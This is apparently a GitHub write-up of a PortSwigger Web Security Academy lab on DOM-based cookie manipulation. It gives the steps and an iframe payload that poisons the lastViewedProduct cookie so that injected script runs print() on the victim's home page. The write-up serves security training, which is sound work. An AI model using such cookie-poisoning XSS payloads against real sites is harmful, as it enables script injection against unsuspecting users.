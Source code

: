 # DOM-based cookie manipulation

## 📌 Lab Details
- **Title**: DOM-based cookie manipulation
- **Difficulty**: Practitioner
- **Category**: DOM-based vulnerability
- **Lab URL**: https://portswigger.net/academy/labs/launch/a248974a24dd4abd637f526afb96bb349d49b2ad790756b97c46f47203781c6a?referrer=%2fweb-security%2fdom-based%2fcookie-manipulation%2flab-dom-cookie-manipulation

## 🔍 Summary
This lab demonstrates **DOM-based client-side cookie poisoning**, where you inject a malicious URL containing an XSS payload into a `lastViewedProduct` cookie, which later triggers `print()` when the victim visits the home page.

## 🛠 Steps to Solve
1. Notice that the home page uses a client-side cookie called `lastViewedProduct`, whose value is the URL of the last product page that the user visited.
2. Inject the payload on the **Exploit** server:
   ```sh
   <iframe src="https://YOUR-LAB-ID.web-security-academy.net/product?productId=1&'><script>print()</script>" onload="if(!window.x)this.src='https://YOUR-LAB-ID.web-security-academy.net';window.x=1;">
   ```
3. Store the exploit and deliver it to the victim.

## 📖 Key Takeaways
- Shows how client-side JavaScript setting unvalidated cookies can be abused for XSS.
- Uses an iframe to poison the `lastViewedProduct` cookie silently, then redirects the victim to the home page to trigger the XSS.
- Highlights that client-side trust in cookie values is dangerous and can lead to DOM-based XSS if used in sinks without sanitization.

## 🖼️ Screenshot 
![image](https://github.com/user-attachments/assets/fcf9d886-7d86-454b-89f6-c44a6687823e)
![image](https://github.com/user-attachments/assets/a2751049-b8f0-40d1-858f-70f2151fc7b8)
![image](https://github.com/user-attachments/assets/d6655d44-0989-4aef-a832-a53e683f7107)
![image](https://github.com/user-attachments/assets/5aaeaa2e-aa29-4452-a736-797db9be8e12)
![image](https://github.com/user-attachments/assets/6afb3a38-ae6f-4383-a612-0642b98b8211)
